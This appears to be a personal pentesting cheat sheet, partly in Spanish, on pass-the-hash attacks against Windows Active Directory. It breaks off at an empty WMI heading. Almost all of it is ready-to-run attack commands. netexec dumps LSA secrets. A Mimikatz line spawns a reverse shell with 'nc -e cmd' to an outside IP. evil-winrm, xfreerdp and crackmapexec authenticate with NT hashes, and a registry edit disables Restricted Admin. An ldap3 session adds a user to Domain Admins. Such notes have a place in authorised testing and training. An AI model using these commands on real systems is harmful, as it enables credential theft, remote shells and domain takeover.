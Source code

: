 
![qownnotes-media-jjlIpZ](../../../media/qownnotes-media-jjlIpZ.png)

netexec

```
netexec smb 192.168.175.202 -u Administrator -H "<nt_hash>" --lsa
```
## Pass the hash


Localmente

Mimikatz

    sekurlsa::pth /user:user1 /domain:home.lab /ntlm:ae974876d974abd805a989ebead86846 /run:".\n.exe -e cmd 192.168.0.76 8089"

Remotamente

#### winrm

```
evil-winrm -i 10.10.10.103 -u Administrator -H f6b7160bfc91823792e0ac3a162c9267
```

#### RDP

    cme smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
    xfreerdp /v:192.168.2.200 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C


#### LDAP

python

    python3
    >>> import ldap3
    >>> user = 'DOMAIN\\EXCHANGE$'
    >>> password = 'aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248'
    >>> server = ldap3.Server('DOMAIN.LOCAL')
    from ldap3 import Server, Connection, SIMPLE, SYNC, ALL, SASL, NTLM
    connection = ldap3.Connection(server, user=user, password=password, authentication=NTLM)
    >>> connection.bind()
    >>> from ldap3.extend.microsoft.addMembersToGroups import ad_add_members_to_groups as addUsersInGroups
    >>> user_dn = 'CN=IT User,OU=Standard Accounts,DC=domain,DC=local'
    >>> group_dn = 'CN=Domain Admins,CN=Users,DC=domain,DC=local'
    >>> addUsersInGroups(connection, user_dn, group_dn)
    True

crackmapexec

    crackmapexec ldap 192.168.175.202 -u usuarios.txt -H "<nt_hash>"

#### WMI
